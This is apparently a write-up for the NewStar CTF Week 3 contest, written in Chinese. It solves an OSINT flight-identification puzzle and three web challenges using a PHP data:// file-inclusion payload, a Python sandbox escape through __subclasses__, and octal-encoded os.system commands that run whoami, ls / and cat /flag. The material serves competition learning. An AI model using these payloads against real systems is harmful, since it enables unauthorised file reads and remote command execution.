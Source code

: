 ![85a314d4e3d6e02f899c56d3390511d](NewStar CTF Week3 WriteUp/85a314d4e3d6e02f899c56d3390511d.jpg)

## OSINT

图片上有 飞机机号和拍摄时间。

B-2419
flag{MU5156_济宁市}
https://www.flightera.net/zh/flight_details/China+Eastern+Airlines/MU5156/ZBAA/2024-08-18

# Web

## Include Me

``` php
http://eci-2ze40zr0srdj3ts2cctb.cloudeci1.ichunqiu.com/?iknow=1&me=data://text/plain;base64,PD9waHAgaW5jbHVkZSIvZmxhZyI7Pz4

<?php include"/flag";?>
```

用这个！包一下。

![屏幕截图 2024-10-11 150313](NewStar CTF Week3 WriteUp/屏幕截图 2024-10-11 150313.png)

## 臭皮踩踩背

绕过 绕过 绕过。用奇奇怪怪的对象方式就可以搞到了！

``` 
https://note.tonycrane.cc/ctf/misc/escapes/pysandbox/#object

[].__class__.__base__.__subclasses__()

[].__class__.__base__.__subclasses__()[99].get_data("","flag")      
b'flag{5779d077-24f8-4879-af6f-28232790ae9f}\n'
```

![6fdb92733b9844422a5046decd1c744](NewStar CTF Week3 WriteUp/add0fa593d96e94209dcc38ac047d16.jpg)

![6fdb92733b9844422a5046decd1c744](NewStar CTF Week3 WriteUp/6fdb92733b9844422a5046decd1c744-1728983472777-11.png)

## 臭皮的计算机

这是绕过的过程。

``` 
os.system('whoami')

\157\163\056\163\171\163\164\145\155\050\047\167\150\157\141\155\151\047\051

Result: root 0


os.system('ls /')

\157\163\056\163\171\163\164\145\155\050\047\154\163\040\057\047\051

Result: app bin boot dev etc flag home lib lib64 media mnt opt proc root run sbin srv start.sh sys tmp usr var 0

os.system('cat /flag')

```